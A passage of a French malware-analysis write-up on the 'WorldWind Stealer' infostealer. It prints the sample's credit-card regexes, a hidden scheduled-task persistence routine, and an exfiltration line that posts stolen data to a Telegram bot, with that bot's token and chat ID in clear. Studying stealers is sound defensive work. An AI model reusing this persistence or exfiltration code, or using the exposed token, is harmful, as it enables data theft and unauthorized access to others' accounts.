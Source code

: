 ```C
		{"Visa Card",new Regex("4[0-9]{12}(?:[0-9]{3})?$")},
		{"Visa Master Card",new Regex("^(?:4[0-9]{12}(?:[0-9]{3})?|5[1-5][0-9]{14})$")},
		{"Express Card",new Regex("3[47][0-9]{13}$")}
	};
```

- Des fonctions de persistances :

```C
Process.Start(new ProcessStartInfo
{
	FileName = "cmd",
	Arguments = string.Concat(new string[]
	{
	"/c schtasks /create /f /sc onlogon /rl highest /tn \"",
	Path.GetFileNameWithoutExtension(fileInfo.Name),
	"\" /tr '\"",
	fileInfo.FullName,
	"\"' & exit"
	}),
	WindowStyle = ProcessWindowStyle.Hidden,
	CreateNoWindow = true
});
```


Il n'y as pas grand chose d'autres d'intéréssant à par le nom du malware : "WorldWind Stealer"
Le nom traine un peu partout et une bref recherche nous permet de retrouver le builder de l'implant.


##### Du coté de télégram

Dans le code on retrouve 2 tokens , le premier est celui du bot "Virus" .
Malheuresement celui si semble éteint ou supprimés :

```json
{"ok":false,"error_code":401,"description":"Unauthorized"}
```

On revanche on a une autre url en clair dans le payload :

```bash
httpClient2.PostAsync("https://api.telegram.org/bot1119746739:AAGMhvpUjXI4CzIfizRC--VXilxnkJlhaf8/send" + type + "?chat_id=1096425866", multipartFormDataContent2).Wait();
```

On en récupère

- un chatID : 1096425866
- un token : 1119746739:AAGMhvpUjXI4CzIfizRC--VXilxnkJlhaf8

En allant sur cette url : https://api.telegram.org/bot1119746739:AAGMhvpUjXI4CzIfizRC--VXilxnkJlhaf8/getUpdates

On retrouve un grand nombre de personne.
Cet url étant stocké dans le code sans variable, je suppose que c'est le groupe des clients de "WoldWind Stealer"
De plus , une vérication du groupe est fait lors de l'envoie des informations d'une victime a un des pirates .
Cette fonction est une sorte de sécurité pour garder le controle des channels ou le bot peut envoyer les informations privées :


[//]: <> (Created By Vozec 25/11/2021)